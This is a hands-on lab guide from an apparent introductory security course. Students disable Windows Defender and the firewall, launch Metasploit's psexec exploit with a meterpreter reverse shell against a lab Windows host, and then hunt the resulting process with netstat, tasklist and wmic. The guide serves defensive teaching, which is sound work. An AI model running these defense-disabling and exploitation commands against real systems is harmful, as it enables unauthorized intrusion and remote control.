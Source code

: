 ![image](https://github.com/user-attachments/assets/068fae26-6e8f-402f-ad69-63a4e6a1f59e)

# Windows CLI

In this lab, we will create **malware**, run it, and use the tools we went through in the slides to look at what an attack looks like on a live system.  

One of the best ways to learn is to actually just dig in and do it.  

Let’s get started by opening a terminal.  

![](attachments/OpeningKaliInstance.png)

Alternatively, you can open a **Kali** instance by clicking the **Kali** logo in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Before going any further, we need to ensure that **Windows Defender** is disabled. To do this, open a Windows **Powershell** by clicking the icon in the taskbar.

![](attachments/OpeningPowershell.png)

<pre>Set-MpPreference -DisableRealtimeMonitoring $true</pre>

![](attachments/windowscli_disabledefender.png)

Please note, if you get red errors that say 

<pre>A general error occurred that is not covered by a more specific error code.</pre> 


That is OK!  It means **Defender** was disabled.  We run the above command to ensure that it is off for this lab.  It has a sneaky way of turning back on again...

Next, lets ensure the firewall is disabled.

<pre> netsh advfirewall set allprofiles state off</pre>

Next, set a password for the Administrator account that you can remember

<pre>net user Administrator password1234</pre>

Please note, that is a very bad password.  Come up with something better. But, please remember it.

Now that we disabled **Windows Defender**, we can head back to our **Kali** terminal.

Within the terminal, please run the following command:

<pre>ipconfig</pre>

Please note your Windows IP address.

Please note your IP address for the **ADHD Linux system** on a piece of paper:

We need to gain root access within our **Kali** terminal. To do that, run the following command:

<pre>sudo su -</pre>

Next, we will start the **Metasploit** handler with the following command:

<pre>msfconsole -q</pre>

It will take a second to connect, be patient!

When connected, our terminal will look like this.

![](attachments/windowscli_msfconnected.png)

Next, run the following command:

<pre>use exploit/windows/smb/psexec</pre>

![](attachments/windowscli_useexploit.png)

We will continue by running this command to set the location of the payload:

<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>

We also need to set the **RHOST IP** for the Windows system by using the following command:

<pre>set RHOST 10.10.1.209</pre>

![](attachments/windowscli_sets.png)

**Remember, your IP will be different!**

Next, we need to set the **SMB** username and password. 

<pre>set SMBUSER Administrator</pre>

<pre>set SMBPASS T@GEq5%r2XJh</pre>

Remember, your password will be different!  I hope!!!

It should look like this:

![](attachments/windowscli_setuserpass.png)

Now, we can run the exploit command

<pre>exploit</pre>

![](attachments/windowscli_exploit.png)

While there is not much here for this lab, it is key to remember that these two commands would help us detect an attacker that is mounting shares on other computers (net view).  It would also tell us if an attacker had mounted a share on this system (net session). 

We are not done with network connections yet.  Lets try looking at our malware!

Go ahead an open an instance of **Windows PowerShell**.

![](attachments/OpeningPowershell.png)

Run the following command:

<pre>netstat -naob</pre>

![](attachments/windowscli_netstat.png)

Well, that is a lot of data. This is showing us which ports are open on this system **(0.0.0.0:portnumber)** or **(LISTENING)**.
As well as the remote connections that are made to other systems **(ESTABLISHED)**.  In this example, we are really interested in the **ESTABLISHED** connections:

![](attachments/windowscli_established.png)

Specificly, we are interested in the connection on port 4444 as we know this is the port we used for our malware.

Now, let's drill down on that connection with some more data:

<pre>netstat -f</pre>

I like to run **"-f"** with netstat to see if there are any systems with fully qualified domains that we may be able to ignore. 

![](attachments/windowscli_-f.png)

Now we see our last connection with the **port 4444**.

Let's get the Process ID **(PID)** from the above screenshot so we can dig a little deeper.

![](attachments/windowscli_pid.png)

We will start with tasklist  

<pre>tasklist /m /fi "pid eq [PID]"</pre>

**YOUR PID WILL BE DIFFERENT!**

![](attachments/windowscli_tasklist.png)

We can see the loaded **DLL's** above.  As we can see, there is not a whole lot to see here:

Let's keep digging with **wmic**:

<pre>wmic process where processid=[PID] get commandline</pre>

![](attachments/windowscli_wmic.png)

Ahh!!  Now we can see that the file was launched from the **command line**!  We know this because there are no options.

Let's see if we can see what spawned the process with **wmic**.

<pre>wmic process get name,parentprocessid,processid | select-string [PID]</pre>

![](attachments/windowscli_selectstring.png)

Lets go through the steps we took to hunt for a malicious process

1. We found its parent process ID.  

2. We did a search on that process ID.  

3. As you can see above, it was launched by the cmd.exe process.  

4. Note that the search we just did may turn up some other things launched by the command line as well.


***                                                                 

<b><i>Continuing the course? </br>[Next Lab](/IntroClassFiles/Tools/IntroClass/Wireshark/Wireshark.md)</i></b>

<b><i>Looking for a different lab? </br>[Lab Directory](/IntroClassFiles/navigation.md)</i></b>

***Finished with the Labs?***

Please be sure to destroy the lab environment!

[Click here for instructions on how to destroy the Lab Environment](/IntroClassFiles/Tools/IntroClass/LabDestruction/labdestruction.md)

---







 

